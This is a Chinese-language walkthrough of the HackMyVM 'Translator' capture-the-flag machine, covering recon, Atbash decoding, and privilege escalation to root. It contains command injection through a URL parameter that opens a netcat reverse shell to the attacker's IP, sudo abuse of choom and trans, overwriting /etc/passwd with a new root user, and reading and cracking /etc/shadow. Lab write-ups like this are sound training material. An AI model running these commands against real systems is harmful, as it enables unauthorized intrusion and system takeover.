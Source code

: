 [HackMyVm - Translator - YouTube](https://www.youtube.com/watch?v=xs6Pw9y_Ayg)
https://www.dcode.fr/cipher-identifier 

|   |   |   |
|---|---|---|
|translator|easy|命令执行、sudo提权、trans 提权|

# 主机发现
```C
netdiscover -i eth0 -r 192.168.44.193/24
```
# 服务探测
```C
nmap -sV -A -T4 -p- 192.168.44.134
```
得到只开放了80和22端口

# 目录爆破
加上-e参数能带着url一起输出路径更好点击访问

```css
gobuster dir -u http://192.168.44.134/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php -e
```

只是个输入框，尝试输入，发现我们输入的字符被替换了然后显示
尝试发现是26个字母倒叙替换
也可以通过https://www.dcode.fr/cipher-identifier 发现是使用atbash编码
但我直接写了个脚本
```Python
import sys

def reverse_alphabet_substitution(text):
    # 定义倒序字母映射字典
    reversed_alphabet = {
        'A': 'Z', 'B': 'Y', 'C': 'X', 'D': 'W', 'E': 'V',
        'F': 'U', 'G': 'T', 'H': 'S', 'I': 'R', 'J': 'Q',
        'K': 'P', 'L': 'O', 'M': 'N', 'N': 'M', 'O': 'L',
        'P': 'K', 'Q': 'J', 'R': 'I', 'S': 'H', 'T': 'G',
        'U': 'F', 'V': 'E', 'W': 'D', 'X': 'C', 'Y': 'B',
        'Z': 'A',
    }

    # 使用映射字典替换文本中的字母
    result = ''.join(reversed_alphabet.get(c.upper(), c) for c in text)

    return result.lower()

args = sys.argv

print(args[1])
# 示例文本
input_text = args[1]

# 应用替换函数
output_text = reverse_alphabet_substitution(input_text)

print(output_text)

```

# 命令执行nc反弹SHELL
sh -i >& /dev/tcp/ 192.168.44.128 / 9001 0>&1不行
```C
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ python translater.py nc+-e+/bin/bash+192.168.44.128+9001
nc+-e+/bin/bash+192.168.44.128+9001
mx -v /yrm/yzhs 192.168.44.128 9001
```
访问`http://192.168.44.134/translate.php?hmv=rw;mx -v /yrm/yzhs 192.168.44.128 9001

刚监听的shell不太好用，使用下面这条命令打开一个pty伪终端
```C
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm //设置终端类型为常见的xterm环境变量
stty -a//以容易阅读的方式打印当前的所有配置
stty raw -echo;fg//- 通过 `stty raw -echo` 将当前终端设置为原始模式并关闭回显。接着，使用分号 `;` 立即执行下一条命令。最后，`fg` 命令将最近放入后台的作业切换到前台运行，此时由于终端已处于原始模式且回显关闭，该作业可以直接接收用户的无干扰、未经处理的键盘输入。
reset //重新初始化终端
```
# 提权
[使用sudo进行Linux权限升级技巧 - 渗透测试中心 - 博客园](https://www.cnblogs.com/backlion/p/10504003.html)
**配置 sudo [命令](https://links.jianshu.com/go?to=https%3A%2F%2Fwww.linuxcool.com%2F)在运行时而不输入密码。** |此设置在 /etc/sudoers文件中完成，这是使用 sudo [命令](https://links.jianshu.com/go?to=https%3A%2F%2Fwww.linuxcool.com%2F)的默认安全策略；在用户权限指定部分

尝试读取第一个flag读取不到cat /home/ocean/user.txt

```C
cat hvxivg

┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ python translater.py Mb+kzhhdliw+rh+zbfie3w4          
Mb+kzhhdliw+rh+zbfie3w4
ny password is ayurv3d4
```
利用sudo 提权到india 账号
https://gtfobins.github.io/gtfobins/choom/
```C
su ocean //输入密码：ayurv3d4
sudo -l
//发现有个(india) NOPASSWD: /usr/bin/choom   这可以让我免密提权至india用户权限
```

也可以直接ssh：`ssh ocean@192.168.44.134

**choom**      命令是 util-linux 软件包的一部分
不会用这个命令就去找man：[choom(1) - Linux manual page](https://man7.org/linux/man-pages/man1/choom.1.html)
[Ubuntu Manpage: choom - display and adjust OOM-killer score.](https://manpages.ubuntu.com/manpages/focal/en/man1/choom.1.html)

```C
sudo -u india /usr/bin/choom -n 0 /bin/sh
script /dev/null -c bash
```

```C
sudo -l //(root) NOPASSWD: /usr/local/bin/trans
sudo -u root /usr/local/bin/trans//尝试以root权限运行该翻译软件
man /usr/local/bin/trans   //不会就问man,查看帮助命令
```

cat /etc/passwd发现可以显示，添加root用户
```C
cat /etc/passwd
cp /etc/passwd /tmp/passwd.bak
cp /etc/passwd /tmp/file
在kali中生成一个密码
mkpasswd -m sha-512
复制值到file的最后一行中,并按照格式修改成root用户hack:$6$8NJrwgxTZMywbrec$f7JVOZGjIXI0UnN6Ovdv0kzyqiWkhqpIgBOyJOX2AHX4Z4SGuBo8D17cYAolVkVbEtNwQ75ze90uhHbIsA21a0:0:0:root:/root:/bin/bash

sudo -u root /usr/local/bin/trans -i /tmp/file -o /etc/passwd -no-auto
su hack //密码：123
```

```C
root@translator:~# cat root.txt
h87M5364V2343ubvgfy
root@translator:~# cat /home/ocean/user.txt
a6765hftgnhvugy473f
```

方法二：
利用trans 进行提权，命令介绍：https://www.jianshu.com/p/da570df21ae8
这个是google的shell下翻译工具，所以google需要科学上网，我们在后面加上了-x代理，成功读取到shadow文件
```Css
sudo /usr/local/bin/trans -i /etc/shadow -x http://192.168.31.11:7890 -no-auto

sudo /usr/local/bin/trans -i /root/root.txt -x http://192.168.31.11:7890 -no-auto
```
读取后使用john 进行爆破，但是没有爆破出来。

```css
john shadow --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt
```
也可以通过如下命令直接提权到root，反正我是不成功

```css
sudo /usr/local/bin/trans -pager less -x http://192.168.31.11:7890
```
